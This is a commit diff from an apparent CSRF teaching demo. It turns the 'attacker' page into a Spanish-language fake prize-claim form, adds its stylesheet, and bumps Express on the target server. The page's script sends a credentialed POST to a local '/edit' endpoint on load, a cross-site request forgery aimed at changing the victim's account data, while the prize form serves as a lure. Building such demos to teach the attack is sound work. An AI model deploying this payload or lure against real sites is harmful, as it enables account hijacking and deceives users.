

Before and after one commit to CarlaVictorio/CSRFDemo, a plain HTML site: page attack-server/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1049 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
attacker-site done
tiene un form dummy

```diff
--- a/attack-server/index.html
+++ b/attack-server/index.html
@@ -1,23 +1,44 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="es">
 <head>
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Attacker website</title>
+    <title>Formulario de Reclamo de Premio</title>
+    <link rel="stylesheet" href="styles.css">
 </head>
 <body>
-  <div>
-    <h1>
-      Some nice website
-    </h1>
-    <!-- <form name="form" action="http://localhost:3000/edit" method="POST">
-      <input type="hidden" name="email" value="hacker@hack.com">
-    </form> -->
+    <div class="container">
+        <form id="prizeForm">
+            <h1>¡Felicidades! Reclama tu Premio</h1>
+            <label for="name">Nombre Completo</label>
+            <input type="text" id="name" name="name" required>
+
+            <label for="email">Correo Electrónico</label>
+            <input type="email" id="email" name="email" required>
+
+            <label for="phone">Número de Teléfono</label>
+            <input type="tel" id="phone" name="phone" required>
+
+            <label for="address">Dirección</label>
+            <textarea id="address" name="address" required></textarea>
+
+            <label for="prize">Premio Ganado</label>
+            <select id="prize" name="prize" required>
+                <option value="viaje">Viaje</option>
+                <option value="dinero">Dinero en efectivo</option>
+                <option value="producto">Producto</option>
+                <option value="otro">Otro</option>
+            </select>
+
+            <button type="submit">Enviar</button>
+        </form>
+        <div id="confirmationMessage" style="display: none;">
+            <h2>¡Gracias por enviar el formulario!</h2>
+            <p>Tu solicitud ha sido recibida correctamente. Nos pondremos en contacto contigo pronto.</p>
+        </div>
     </div>
     <script>
-    //document.form.submit();
-
         fetch('http://localhost:3000/edit', {
         method: 'POST',
         credentials: 'include',
@@ -29,11 +50,11 @@
         })
         .then(res => console.log(res.status))
         .catch(err => console.log(err));
-
-    // fetch('http://localhost:3000/edit', { credentials: 'include' })
-    //   .then(res => res.text())
-    //   .then(html => console.log(html))
-    //   .catch(err => console.log(err));
+        document.getElementById('prizeForm').addEventListener('submit', function(event) {
+            event.preventDefault(); // Prevenir el envío del formulario
+            document.getElementById('prizeForm').style.display = 'none'; // Ocultar el formulario
+            document.getElementById('confirmationMessage').style.display = 'block'; // Mostrar el mensaje de confirmación
+        });
     </script>
 </body>
 </html>
--- /dev/null
+++ b/attack-server/styles.css
@@ -0,0 +1,62 @@
+body {
+    font-family: 'Arial', sans-serif;
+    margin: 0;
+    padding: 0;
+    height: 100vh;
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    background: linear-gradient(to right, #ff7e5f, #feb47b);
+}
+
+.container {
+    background: rgba(255, 255, 255, 0.9);
+    padding: 20px;
+    border-radius: 10px;
+    box-shadow: 0 0 15px rgba(0, 0, 0, 0.1);
+    width: 400px;
+    text-align: center;
+}
+
+h1 {
+    color: #333;
+    margin-bottom: 20px;
+}
+
+form {
+    display: flex;
+    flex-direction: column;
+}
+
+label {
+    margin: 10px 0 5px;
+    color: #555;
+}
+
+input, textarea, select {
+    padding: 10px;
+    margin-bottom: 15px;
+    border: 1px solid #ccc;
+    border-radius: 5px;
+    font-size: 14px;
+}
+
+button {
+    padding: 10px;
+    border: none;
+    background: #28a745;
+    color: #fff;
+    border-radius: 5px;
+    cursor: pointer;
+    font-size: 16px;
+    transition: background 0.3s ease;
+}
+
+button:hover {
+    background: #218838;
+}
+
+#confirmationMessage {
+    display: none;
+    color: #333;
+}
--- a/target-server/package.json
+++ b/target-server/package.json
@@ -14,7 +14,7 @@
   "dependencies": {
     "connect-flash-plus": "^0.2.1",
     "cors": "^2.8.5",
-    "express": "^4.17.1",
+    "express": "^4.19.2",
     "express-handlebars": "^5.3.5",
     "express-session": "^1.18.0",
     "uuid": "^8.3.2"
```
Also changed, not shown: 1 other file. Lines whose indentation alone changed are shown as unchanged.
